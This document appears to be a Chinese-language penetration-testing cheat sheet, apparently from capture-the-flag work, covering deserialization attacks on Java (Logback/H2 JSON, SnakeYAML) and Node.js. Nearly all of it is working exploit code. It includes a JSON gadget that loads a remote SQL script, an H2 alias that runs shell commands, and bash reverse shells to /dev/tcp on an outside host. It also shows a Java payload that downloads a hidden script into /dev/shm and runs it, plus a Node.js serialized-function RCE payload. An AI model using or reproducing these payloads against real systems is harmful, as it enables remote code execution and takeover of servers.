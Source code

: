 ## JSON 反序列化拿 webshell 
找到可能执行的地方，建立80临时服务器
```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.11/test.sql'"}]
```

武器化 sql 脚本 (测试ping)
```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('ping -c 1 10.10.14.11')
```

- rev.sql
```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { 
		String[] command = {"bash", "-c", cmd}; 
		java.util.Scanner s = new         java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A"); 
		return s.hasNext() ? s.next() : ""; } 
$$; 
CALL SHELLEXEC('bash -c "bash -i >& /dev/tcp/10.10.14.11/443 0>&1"')
```

## YAML 反序列化
```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.11/"]
  ]]
]
```
https://github.com/artsploit/yaml-payload
修改 /yaml-payload-master/src/artsploit/AwesomeScriptEngineFactory.java 的开头
**rev.sh** : `bash -c 'bash -i >& /dev/tcp/10.10.14.11/2233 0>&1'`
```java
    public AwesomeScriptEngineFactory() throws InterruptedException {
        try {
            Process p = Runtime.getRuntime().exec("curl http://10.10.14.11/rev.sh -o /dev/shm/.rev.sh");
            p.waitFor();
            p = Runtime.getRuntime().exec("chmod +x /dev/shm/.rev.sh");
            p.waitFor();
            p = Runtime.getRuntime().exec("/dev/shm/.rev.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```
继续编译
```bash
javac yaml-payload-master/src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf shell.jar -C yaml-payload-master/src/ .
```
建立监听后执行
```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.11/rev.jar"]
  ]]
]
```


## Node.js 
https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/
https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py
```bash
python2 nodejsshell.py 10.10.16.6 2233
```

- nodejs
```js
{"rce":"_$$ND_FUNC$$_function (){xxxxxxxxx}()"}
cat xxx | base64
```
base64编码后攻击即可。